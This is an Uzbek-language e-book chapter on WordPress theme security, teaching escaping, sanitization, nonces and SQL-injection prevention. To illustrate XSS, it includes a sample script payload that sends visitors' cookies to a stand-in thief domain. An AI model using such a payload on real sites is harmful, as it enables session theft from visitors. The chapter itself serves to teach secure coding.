

repository: iOqil/e-book · page: wordpress-tema/27-xavfsizlik/index.html · generator: mkdocs · copyright: © 2026 Oqil Imomnazarov · bepul · savdo taqiqlanadi · CC BY-NC-SA 4.0

# 27 — Xavfsizlik: escaping, sanitization, nonce

[⬅ Oldingi: 26 — WooCommerce tema integratsiyasi](./26-woocommerce-tema.md) · [🏠 README](./README.md) · [Keyingi: 28 — i18n/l10n va accessibility ➡](./28-i18n-accessibility.md)

> **Bu bobda:** tema xavfsizligi — bu "qo'shimcha funksiya" emas, **majburiy asos**. Yomon yozilgan bitta `echo $_GET['q']` qatori butun saytni XSS hujumiga ochib qo'yadi. Bu bobda uchta tayanch tushunchani o'rganamiz: **escaping** (chiqishda — `esc_html`, `esc_attr`, `esc_url`, `esc_js`, `esc_textarea`, `wp_kses_post`), **sanitization** (kirishda — `sanitize_text_field`, `sanitize_email`, `absint`, `sanitize_key`), va **nonce** (forma/AJAX CSRF himoyasi — `wp_nonce_field`/`wp_verify_nonce`). Shuningdek `$_GET`/`$_POST` ning to'g'ridan-to'g'ri xavfini, `$wpdb->prepare()` bilan SQL injection himoyasini, fayl yo'li xavfsizligini va `current_user_can()` ruxsat tekshiruvini ko'rib chiqamiz. Yakunda to'liq xavfsiz forma quramiz. Bobdagi har bir funksiya jonli WordPress 7.0 da haqiqatan sinab ko'rildi.

---

## Nega xavfsizlik tema muallifining ishi

Ko'pchilik o'ylaydi: "xavfsizlik — bu serverning yoki WordPress yadrosining ishi, men shunchaki tema yozaman". Bu xato. Tema — bu foydalanuvchi ma'lumotini **ekranga chiqaradigan** va ba'zan **kiritadigan** (formalar, Customizer, blok atributlari) qatlam. Aynan shu yerda ikki eng keng tarqalgan zaiflik tug'iladi:

- **XSS (Cross-Site Scripting)** — hujumchi sahifaga zararli JavaScript joylaydi. Masalan, izoh maydoniga `<script>document.location='http://o\'g\'ri.uz/?c='+document.cookie</script>` yozsa va tema buni escape qilmasdan chiqarsa, har bir mehmanning cookie'si o'g'irlanadi.
- **CSRF (Cross-Site Request Forgery)** — hujumchi foydalanuvchini aldab, uning nomidan amal bajartiradi (masalan, sozlamani o'zgartirish). Nonce aynan shundan himoya qiladi.
- **SQL injection** — to'g'ridan-to'g'ri so'rovga foydalanuvchi matnini qo'shganda baza buziladi yoki o'g'irlanadi.

Oddiy o'xshatish: tema — bu restoran oshxonasi. **Sanitization** — bozordan kelgan mahsulotni yuvib, chirigan joyini kesib tashlash (KIRISH). **Escaping** — taomni mehmonga uzatishdan oldin oxirgi tekshiruv: ichida shisha siniqlari yo'qmi (CHIQISH). **Nonce** — buyurtmani faqat haqiqiy ofitsiant bergani, ko'chadan kelgan begona emasligini tasdiqlovchi chek.

Bu uch tushuncha bir-birini almashtirmaydi — ular **birga** ishlaydi:

| Tushuncha | Qachon | Maqsad | Misol funksiya |
|-----------|--------|--------|----------------|
| **Sanitization** | Ma'lumot **kirganda** (saqlashdan oldin) | Keraksiz/zararli belgilarni tozalash | `sanitize_text_field()` |
| **Escaping** | Ma'lumot **chiqqanda** (ekranga) | Brauzer kodni bajarmasligi | `esc_html()` |
| **Nonce** | Forma/amal **yuborilganda** | So'rov haqiqiy ekanini tasdiqlash | `wp_verify_nonce()` |
| **`$wpdb->prepare`** | Baza so'rovi tuzilganda | SQL injection oldini olish | `$wpdb->prepare()` |

> **Eng muhim qoida:** *Hech qachon foydalanuvchidan kelgan ma'lumotga ishonmang.* `$_GET`, `$_POST`, `$_REQUEST`, izoh, post meta, blok atributi, hatto bazadagi eski ma'lumot ham "begona" hisoblanadi — chiqishda escape, kirishda sanitize qiling.

---
